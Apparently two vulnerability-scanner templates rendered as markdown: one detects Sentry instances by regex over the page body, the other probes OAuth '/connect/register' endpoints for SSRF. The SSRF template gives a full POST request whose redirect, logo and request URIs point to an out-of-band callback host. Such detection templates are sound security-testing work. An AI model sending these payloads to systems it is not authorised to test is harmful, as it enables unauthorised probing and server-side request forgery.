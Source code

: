 
# Detect Sentry Instance

- severity - info
- tags - ssrf,sentry,tech,hackerone

## Requests

- Method - GET

### URL

- {{BaseURL}}

### Extractors

**Type - regex**

- part - body
- regex
  1. https://[0-9a-f]\*@[a-z0-9]+\.[a-z.]+.?[0-9]+

---

# SSRF due to misconfiguration in OAuth

## Description

- Sends a POST request with the endpoint "/connect/register" to check external Interaction with multiple POST parameters.
- severity - medium
- tags - misconfig,oast,oauth,ssrf

## Requests

### Step - 1

```
POST /connect/register HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept-Language: en-US,en;q=0.9

{
  "application_type": "web",
  "redirect_uris": ["https://{{interactsh-url}}/callback"],
  "client_name": "{{Hostname}}",
  "logo_uri": "https://{{interactsh-url}}/favicon.ico",
  "subject_type": "pairwise",
  "token_endpoint_auth_method": "client_secret_basic",
  "request_uris": ["https://{{interactsh-url}}"]
}

```

